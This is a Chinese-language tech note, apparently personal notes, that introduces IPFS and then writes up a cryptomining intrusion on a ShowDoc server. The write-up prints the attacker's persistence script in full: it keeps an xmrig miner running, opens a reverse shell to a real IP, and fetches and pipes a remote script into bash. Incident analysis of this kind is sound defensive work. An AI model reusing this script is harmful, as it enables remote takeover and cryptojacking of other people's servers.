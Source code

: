 ### 分布式文件存储IPFS

- https://ipfs.tech
- https://blog.csdn.net/inthat/article/details/106206591

- IPFS属于Web3.0的应用范畴，相当于Web2.0中的dropbox
- IPFS是一个点对点的分布式文件系统（比特币是一种点对点的电子现金系统），目标是为了补充（甚至是取代）目前统治互联网的超文本传输协议（HTTP），将所有具有相同文件系统的计算设备连接在一起。原理用基于内容的地址替代基于域名的地址，也就是用户寻找的不是某个地址而是储存在某个地方的内容，不需要验证发送者的身份，而只需要验证内容的哈希，通过这样可以让网页的速度更快、更安全、更健壮、更持久
- 互联网是建立在HTTP协议上的，HTTP协议的中心化造成效率非常低，并且成本还很高
    - 一旦使用HTTP协议每次需要从中心化的服务器下载完整的文件(网页,视频,图片等),速度慢,效率低。如果改用P2P的方式下载,可以节省近60%的带宽. P2P将文件分割为小的块,从多个服务器同时下载,速度非常快.
    - 还有一种就是web文件经常被删除。我们可能在上网的过程中会遇到，收藏某个网页，在使用的时候浏览器网页会显示404。IPFS提供了文件的历史版本回溯功能(就像git版本控制工具一样),可以很容易的查看文件的历史版本,数据可以得到永久保存

## 挖坑程序入侵案例

### 基于apache-php-linux环境的ShowDoc应用

- 服务器症状
    - 发现服务器CPU和内存占用较高
    - 且出现很多apache用户进程，如`apache   19483     1 13 May08 ?        02:32:29 /tmp/.inis`和`apache   19483     1 13 May08 ?        02:32:29 /tmp/.libs`等
    - ShowDoc应用文件上传目录，存在一些`.php`的脚本文件，且存在`xmrig`的执行程序
- 查看`/tmp/.inis`发现如下

```bash
#!/bin/bash
while :
do
if [ -w /usr/sbin ]; then
  SPATH=/usr/sbin
else
  SPATH=/tmp
fi
MD5_1_XMR="e5c3720e14a5ea7f678e0a9835d28283"
MD5_2_XMR=`md5sum $SPATH/.libs | awk '{print $1}'`
if [ "$MD5_1_XMR" = "$MD5_2_XMR" ]
then
  if [ $(netstat -ant|grep '107.172.214.23:80'|grep 'ESTABLISHED'|grep -v grep|wc -l) -eq '0' ]
  then
    $SPATH/.libs
  elif [ $(netstat -ant|grep '198.46.202.146:8899'|grep 'ESTABLISHED'|grep -v grep|wc -l) -eq '0' ]
  then
    bash -i >& /dev/tcp/198.46.202.146/8899 0>&1
  else
    echo "ok"
  fi
else
  (curl -s http://w.apacheorg.top:1234/xmss||wget -q -O - http://w.apacheorg.top:1234/xmss)|bash -sh
fi
sleep 30m
done
```
- 且查看定时任务列表


[^1]: https://www.ruanyifeng.com/blog/2017/12/blockchain-tutorial.html (区块链入门教程)
[^2]: http://www.ruanyifeng.com/blog/2018/01/bitcoin-tutorial.html (比特币入门教程)
[^3]: https://www.infoq.cn/article/2018/09/how-choose-blockchain-framework
[^4]: https://www.codenong.com/cs106604338/ (基于java开发一套完整的区块链系统详细教程)
[^5]: http://www.wabi.com/news/24364.html